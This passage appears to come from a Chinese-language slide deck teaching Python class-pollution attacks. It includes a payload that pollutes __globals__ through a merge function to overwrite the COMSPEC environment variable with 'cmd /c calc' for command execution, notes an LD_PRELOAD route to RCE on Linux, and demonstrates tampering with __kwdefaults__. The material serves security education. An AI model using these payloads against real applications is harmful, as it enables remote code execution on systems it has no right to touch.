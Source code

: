 ```python {*}{lines:true}

#> Polluted variable
#> <class '__main__.PollutedClass'>
```

---

### 类污染利用： `subprocess` 或 `os` 污染环境变量

```python {*}{lines:true}
payload = {
    "__class__": {
        "__init__": {
            "__globals__": {
                "subprocess": {
                    "os": {
                        "environ": {"COMSPEC": "cmd /c calc"}  # 修改环境变量
                    }
                }
            }
        }
    }
}
merge(payload, Employee())
subprocess.Popen("whoami", shell=True)  # 弹出计算器
```

这么做可以控制执行子命令用的环境变量，在上面给出的示例中，可以通过上文中 Windows 下 `cmd.exe` 的特性（因为 `shell=True`）而执行任意指令。

Linux 下有可能配合文件写原语，通过修改 `LD_PRELOAD` 等环境变量实现 RCE。

---

### 类污染利用：修改 `__kwdefaults__`

Python 的函数有一个特殊方法叫 `__kwdefaults__`，可以通过它得到该函数关键词参数的默认值：

```python
def func(*, a, b=2):
    print(a, b)

func.__kwdefaults__['a'] = 'Polluted'

func()

#> Polluted 2
```

---

### 类污染利用：修改 `__kwdefaults__` 2

通过修改 `__kwdefaults__` 可以污染函数的关键词参数，从而污染函数的行为。
